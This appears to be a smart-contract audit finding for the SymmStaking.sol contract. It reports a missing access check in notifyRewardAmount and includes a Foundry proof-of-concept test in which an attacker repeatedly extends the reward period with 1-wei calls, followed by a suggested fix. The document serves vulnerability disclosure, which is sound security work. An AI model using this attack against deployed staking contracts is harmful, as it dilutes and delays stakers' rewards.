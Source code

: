 Late Candy Cod

High

# Missing Access Control Allows Reward Period Extension Attack. An attacker will dilute rewards for stakers

### Summary

The lack of access control in `notifyRewardAmount()` in `SymmStaking.sol` will cause a dilution of rewards for stakers as an attacker will repeatedly extend the reward period with minimal token amounts.


### Root Cause

In SymmStaking.sol within the notifyRewardAmount function, there is no access control check to restrict who can call it. This allows anyone to invoke the function and extend the reward distribution period by calling _addRewardsForToken, which resets periodFinish to block.timestamp + duration with even a minimal reward amount (e.g., 1 wei).

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275-L292


https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L366-L379



### Internal Pre-conditions

1. The staking contract must have at least one whitelisted reward token (Admin needs to call configureRewardToken to set isRewardToken[rewardToken1] to be exactly true).

2. Any user, including an attacker, must be able to call notifyRewardAmount (User1 needs to call deposit to set balanceOf[user1] to be at least 500 * 10**18).

3. Admin needs to call notifyRewardAmount to set pendingRewards[rewardToken1] to be at least 100 * 10**18 (The reward duration is extended every time notifyRewardAmount is called with a nonzero amount).




### External Pre-conditions

1. The attacker must have a minimal amount of the reward token to call notifyRewardAmount repeatedly.

2. Gas fees must be low enough for repeated calls to be economically viable.

### Attack Path

1. User1 calls deposit to stake 500 tokens, expecting to earn rewards from the admin’s initial notification of 100 tokens over 1 week.

2. Admin calls notifyRewardAmount with tokens = [rewardToken1] and amounts = [100 * 10**18], setting the reward period to end in 1 week (WEEK).

3. Attacker calls notifyRewardAmount with tokens = [rewardToken1] and amounts = [1 wei] repeatedly (e.g., every few hours or daily), each call extending periodFinish by 1 week from the current block.timestamp.

4. User1 attempts to claim rewards at the original periodFinish, but the reward rate is diluted due to the extended period, and the full 100 tokens are not yet distributed.




### Impact

1. Stakers suffer from indefinitely delayed or diluted rewards.
2. Delayed Reward Distribution: Legitimate stakers may never reach the originally planned claim period for their rewards, causing frustration and potentially reducing user engagement and trust in the protocol.
3. Attacker Advantage: The attacker can exploit the mechanism without significant cost, while the stakers bear the brunt of reduced and delayed rewards. Over time, this could drive users away, harming the protocol's overall value and market reputation.




### PoC

/** To run the test in foundry, run this in your terminal `npm install --save-dev @nomicfoundation/hardhat-foundry` and `npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox @nomicfoundation/hardhat-foundry` and add this `import"@nomicfoundation/hardhat-foundry"` to your `hardhat.config.ts` file
 **/

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test, console} from "forge-std/Test.sol";
import {SymmStaking} from "../contracts/staking/SymmStaking.sol";
import {ERC20Mock} from "lib/openzeppelin-contracts/contracts/mocks/token/ERC20Mock.sol";
import "@openzeppelin/contracts/proxy/transparent/TransparentUpgradeableProxy.sol";

contract MockERC20 is ERC20Mock {
    constructor(string memory name, string memory symbol, uint256 initialSupply) ERC20Mock() {
        _mint(msg.sender, initialSupply);
    }
}

contract SymmStakingExploitTest is Test {
    SymmStaking staking;
    MockERC20 stakingToken;
    MockERC20 rewardToken1;
    address admin = address(0x1);
    address user1 = address(0x2);
    address attacker = address(0x6);

    uint256 constant INITIAL_SUPPLY = 1_000_000 * 10**18;
    uint256 constant WEEK = 7 * 24 * 60 * 60;

    function setUp() public {
        stakingToken = new MockERC20("Staking Token", "STK", INITIAL_SUPPLY);
        rewardToken1 = new MockERC20("Reward Token 1", "RT1", INITIAL_SUPPLY);

        SymmStaking stakingImpl = new SymmStaking();
        TransparentUpgradeableProxy proxy = new TransparentUpgradeableProxy(
            address(stakingImpl),
            admin,
            abi.encodeWithSelector(SymmStaking.initialize.selector, admin, address(stakingToken))
        );
        staking = SymmStaking(address(proxy));

        vm.startPrank(admin);
        staking.configureRewardToken(address(rewardToken1), true);
        vm.stopPrank();

        stakingToken.transfer(user1, 1000 * 10**18);
        rewardToken1.transfer(admin, 1000 * 10**18);
        rewardToken1.transfer(attacker, 1000 * 10**18);

        vm.prank(user1);
        stakingToken.approve(address(staking), type(uint256).max);
        vm.prank(attacker);
        rewardToken1.approve(address(staking), type(uint256).max);
        vm.prank(admin);
        rewardToken1.approve(address(staking), type(uint256).max);
    }

    function testRewardPeriodExtensionExploit() public {
        // User1 stakes tokens
        vm.prank(user1);
        staking.deposit(500 * 10**18, user1);

        // Admin sets initial rewards
        vm.startPrank(admin);
        address[] memory tokens = new address[](1);
        uint256[] memory amounts = new uint256[](1);
        tokens[0] = address(rewardToken1);
        amounts[0] = 100 * 10**18;
        staking.notifyRewardAmount(tokens, amounts);
        vm.stopPrank();

        // Record initial state
        uint256 startTime = block.timestamp;
        (, uint256 initialPeriodFinish, , , ) = staking.rewardState(address(rewardToken1));

        // Attacker extends reward period repeatedly
        uint256 day = 24 * 60 * 60;
        vm.startPrank(attacker);
        for (uint256 i = 0; i < WEEK / day; i++) {
            vm.warp(startTime + day * (i + 1));
            amounts[0] = 1; // 1 wei
            staking.notifyRewardAmount(tokens, amounts);
        }
        vm.stopPrank();

        // Warp to original finish and check
        vm.warp(initialPeriodFinish);
        uint256 earned = staking.earned(user1, address(rewardToken1));
        vm.prank(user1);
        staking.claimRewards();
        uint256 claimed = rewardToken1.balanceOf(user1);

        assertLt(earned, 100 * 10**18, "Rewards not fully distributed due to extension");
        assertApproxEqAbs(claimed, earned, 1e15, "Claimed matches earned");
    }
}


### Mitigation

1. Implement Access Control: Restrict notifyRewardAmount to be callable only by authorized roles (e.g., onlyOwner or onlyAdmin).

2. Add a Minimum Reward Threshold: Ensure that a significant minimum reward amount is required to trigger the function.

3. Prevent Repeated Small Additions: Enforce a cooldown period between consecutive calls to notifyRewardAmount.

4. Cap Reward Period Extensions: Set a maximum extension limit to prevent indefinite extensions.

By implementing these mitigations, the staking mechanism can maintain fair reward distribution and prevent manipulation by malicious actors.



// Example mitigation
function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts)
    external
    nonReentrant
    whenNotPaused
    onlyRole(REWARD_MANAGER_ROLE)
{
    _updateRewardsStates(address(0));
    if (tokens.length != amounts.length) revert ArraysMismatched();

    uint256 len = tokens.length;
    for (uint256 i = 0; i < len; i++) {
        address token = tokens[i];
        uint256 amount = amounts[i];

        if (amount < 1 * 10**18) revert("Amount too small"); // Minimum 1 token
        if (!isRewardToken[token]) revert TokenNotWhitelisted(token);

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);
        pendingRewards[token] += amount;
        _addRewardsForToken(token, amount);
    }
    emit RewardNotified(tokens, amounts);
}







